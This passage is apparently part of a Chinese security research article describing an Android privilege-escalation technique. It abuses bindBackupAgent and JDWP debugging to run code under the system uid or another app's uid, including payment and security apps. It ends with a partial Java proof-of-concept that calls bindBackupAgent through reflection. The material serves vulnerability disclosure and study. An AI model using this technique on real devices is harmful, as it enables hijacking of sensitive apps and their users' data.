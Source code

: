 如果我们再去打开测试应用，会看到两个不同uid的同package进程并存，如下图：

![enter image description here](http://drops.javaweb.org/uploads/images/a30ddf4aa9622fc41f46b4b1d6806a4bf13119a8.jpg)

这里会有两种情况：

*   进程以system的uid启动，但由于没有实例化和调用onCreate，这个进程是个空壳。这是最常见的情况。
    
*   进程以system的uid启动，出现一个Application Crash时的FC对话框。有意思的是某些罕见情况下直接访问backupAgent接口就会触发该对话框。
    

对于这两种情况，attach上之后触发的断点也并不一样。对于第一个来说，线程会block在nativePollOnce上，如下图所示：

![enter image description here](http://drops.javaweb.org/uploads/images/366ed1cb0d093ead30b2679ec1e65d460af56095.jpg)

这种情况利用的一个关键因素是需要让线程跳出nativePollOnce，也就是说需要让其接收到一个消息，然后才能下断点执行代码, 但诡异之处就在于这时候起的进程是一个空壳，不存在GUI界面，常规的操作触发和intent触发都是没有效果的，这岂不是强人所难？这里就需要一个任何ActivityThread都会接收到的非GUI事件非组件的事件消息并触发它，才能跳出这个轮回。通过某种猥琐的方式，是可以做到这点的，读者可以思考下哪些可以达到这个目的。

第二种则会因为异常捕获断在handleApplicationCrash上，这种比较好处理，直接下断点即可。

总之我们利用intellij或者jdb作为载体，通过jdwp即可以system权限或者以其他uid的身份执行代码。

附效果截图：

system:

![enter image description here](http://drops.javaweb.org/uploads/images/8dcc812c40510f1bf23edef78daca7b628cb9043.jpg)

当然我们也可以变幻成什么xx卫士啊，xx钱盾，xx付宝之类进程的uid，从而控制这些敏感应用。附xx卫士的截图:

![enter image description here](http://drops.javaweb.org/uploads/images/7b028aee0b6b94a36ab7fdb5f58a920c5fcae6e6.jpg)

可以看到我们的应用已经和xx卫士是一个uid同床共枕了，接下来怎么发挥就看诸君想象力了。

0x04 部分POC:
===========

* * *

#### myapp:

```
public class Test {

    public static void main(String []args)
    {
        test(Integer.parseInt(args[0]));
    }

    public static void test(Integer uid)
    {
        try {
            Class ActivityManagerNative = Class.forName("android.app.ActivityManagerNative");
            Method bindBackupAgent = ActivityManagerNative.getDeclaredMethod("getDefault");

            Object iActivityManager = bindBackupAgent.invoke(null);

            Method bindBackupAgentMtd = iActivityManager.getClass().getDeclaredMethod("bindBackupAgent", ApplicationInfo.class, int.class);

            ApplicationInfo applicationInfo = new ApplicationInfo();
            applicationInfo.dataDir = "/data/data/com.example.myapp";
            applicationInfo.nativeLibraryDir = "/data/app-lib/com.example.myapp-1";
            applicationInfo.processName = "com.example.myapp";
            applicationInfo.publicSourceDir = "/data/app/com.example.myapp-1.apk";
            applicationInfo.sourceDir = "/data/app/com.example.myapp-1.apk";
            applicationInfo.taskAffinity = "com.example.myapp";
            applicationInfo.packageName = "com.example.myapp";
            applicationInfo.flags = 8961606;
```